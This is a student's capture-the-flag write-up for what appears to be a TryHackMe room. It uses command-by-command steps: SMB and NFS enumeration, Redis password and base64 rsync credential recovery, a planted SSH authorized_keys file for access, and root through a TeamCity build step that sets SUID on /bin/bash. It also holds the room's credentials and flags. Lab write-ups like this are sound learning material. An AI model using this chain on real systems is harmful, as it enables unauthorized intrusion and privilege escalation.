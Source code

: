 sudo openvpn .ovpn

$nmap -A [Ipaddress]
- Note:
	- ssh port 22 (remote login)
	- older protocol
	- SAMBA protcol
		- SAMBA file sharing tool which allows user to download, view, and store files remotely 
___
**ENUMERATING SMB SHARES**
=
$smbclient -L //[ipaddress]
$smbclient //[ipaddress]/shares
- password: [NO PASSWORD, JUST PRESS ENTER]
$cd temp > $mget *
$cd ..
$cd data > $mget *

(on kali)
$cat services.txt
- flag 1: THM{0a09d51e488f5fa105d8d866a497440a}
___
**Mount remote directory - NFS/mount open ports**
=
showmount -e [ipaddress]
- /opt/conf *
	- Remote shared files 
	- We ran a showmount to display list of clients that have remotely mounted file system 

$sudo mount -t nfs [ipaddress]:/opt/conf ~/Desktop/tmp/conf
- -t : type 
- /opt/conf/: Shared directory 
	- opt: Installing optional/ 3rd part software
	- conf: Configuration files 

$cd ~/Desktop/tmp/conf/redis
$nano redis.conf 
- requirepass: "B65Hx562F@ggAZ@F"

$redis-cli -h [ipaddress]
$auth -h B65Hx562F@ggAZ@F
$Get "internal flag"
- Flag 2: THM{ff8e518addbbddb74531a724236a8221}
___
NOTE: THIS IS A START GETTING USERS
=
___

**Getting user's credentials**
we want to find more information about the redis's credentials and what we can do with it 

$type authlist
- list 
	- authlist is a list type key 

$lrange authlist 1 100
- lrange: used to extract a range of elements from a list
- 1 100: attempting to extract the first 100 elements of the output 
- QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==
	-  we noticed that this is a base64 message 

$echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | based64 -d
- authorization for rsync://rsync-connect@{IPADress} with password Hcg3HP67@TW@Bc72v
- Hcg3HP67@TW@Bc72v


$rsync -av rsync://rsync-connect@10.10.201.5/files /home/kali/Desktop/user_files
- pass: Hcg3HP67@TW@Bc72v
- Moving files from 10.10.201.5 (user) to new user_files 
- Ran sudo so we can create user_files

$cd ~/Desktop/user_files/sys-internal]
$cat user.txt
- Flag 3: THM{da7c20696831f253e0afaca8b83c07ab}
___
**THIS IS THE START OF PIVOTING****
=
**___
**SSH into root- enumerating **

$cd ~/Desktop
$mkdir ssh
$cd ssh

Now we are going to create a key for us to access the system

$ssh-keygen -f sys-internal
- password: password

Note: 
- We need to create an authorized key 

$touch authorized_keys
$cat sys-internal.pub > authorized_keys
- NOTE: We are creating a key and storing it into id_rsa.pub and give it similar permissions to the other keys to make is less suspicious

$chmod 700 authorized_keys

Now we are going to upload the admin_key file to .ssh directory of sys-internal 
$rsync -av ~/Desktop/ssh/authorized_keys rsync://rsync-connect@{ipaddress}/files/sys-internal/.ssh
- password Hcg3HP67@TW@Bc72v

$chmod 600 sys-internal

$ssh -i ~/Desktop/ssh/sys-internal sys-internal@{IpAddress} 
- we are able to gain access to the account now 

We want to go all the way back to look at severs or anything we want to exploit 
$cd .. 
$cd ..
- We discovered a TeamCity folder

Readme.txt might have some useful information
$cat TeamCity-readme.txt 
- http://localhost:8111 
	- linux 

We need to check if the service is running on port 8111 
$ss -ltp

$ssh -L 8111:localhost:8111 -i sys-internal sys-internal@{IPAddress}
- now we know we can sign in, lets go on their website -
	- http://localhost:8111  
		- This was found in the TeamCity-readme.txt file 
- Click on log in as super user 

sudo ssh sys-internal@10.10.150.238 -i ~/Desktop/ssh/sys-internal -L 8111:127.0.0.1:8111

Note: Now we can log into TeamCity -> We need to find some credentials 
$cd ..
$cd ..
$cd logs
$cat catalina.out
$cat catalina.out |grep "Super user"
- 6041791014573784210 
	- The first 604... is the right authorization 

____ 
Creating a project 
Click Manually
input name: Project 4
- Where are the flags? 

Create build configuration 
- name > Create  > skip

Go to build steps of the left side 
choose: Command line 
under custom script 
- chmod +s /bin/bash

Hit run 

Go back to linux that is on the TeamCity folder
$ls -l /bin/bash
- You need to wait for it to show 

$/bin/bash -p

$whoami
$cd /root 
$cat root.txt
- Flag 4: THM{e8996faea46df09dba5676dd271c60bd}
